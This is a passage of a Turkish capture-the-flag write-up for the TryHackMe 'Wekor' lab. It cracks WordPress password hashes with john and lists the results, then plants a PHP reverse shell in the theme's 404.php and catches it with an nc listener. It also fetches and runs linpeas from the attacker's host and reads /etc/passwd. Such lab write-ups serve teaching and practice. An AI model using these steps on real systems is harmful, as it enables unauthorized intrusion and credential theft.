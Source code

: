 Dosyada yeni bir subdomain gördüm. /etc/hosts dosyasına kaydettim.

````bash
echo '10.10.241.96     wekor.thm site.wekor.thm' >> etc/hosts 
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/7.png?raw=true)

Wordpress login paneline ulaştık. Bulduğumuz hash'leri kırarak şifreleri bulacağız ve giriş yapacağız.

````bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
````

````
admin:rockyou , wp_jeffrey:xxxxxx , wp_yura:soccer13
````

wp_yura kullanıcısı ile giriş yaptım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/8.png?raw=true)

Appearance kısmından Theme Editor'u seçelim. 404.php dosyasının içeriğine [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) koyacağız.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/9.png?raw=true)


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/10.png?raw=true)


`nc -nvlp 1234` ile 1234 portunu dinlemeye alalım.

Değiştirdiğimiz 404.php dosyasının yolu: `/wordpress/wp-content/themes/twentytwentyone/404.php` 

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/11.png?raw=true)

Shell'imizi aldık.

/home/Orka/user.txt dosyasını okumak için iznimiz yok.

Makineye linpeas yüklüyorum ve çalıştırıyorum.

````bash
python3 -m http.server 80
````
````bash
wget 10.9.1.150:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Wekor/images/12.png?raw=true)

linpeas bir şey bulamadı. 

etc/passwd dosyasını görüntülediğimde memecache kullanıcısının olduğunu gördüm.Memcached açık kaynaklı dağıtılmış bir önbellekleme sistemidir. Memcached, veri nesnelerini dinamik bellekte depolar. Default olarak 11211 portunda çalışır. Buradan bir şey elde edebiliriz.

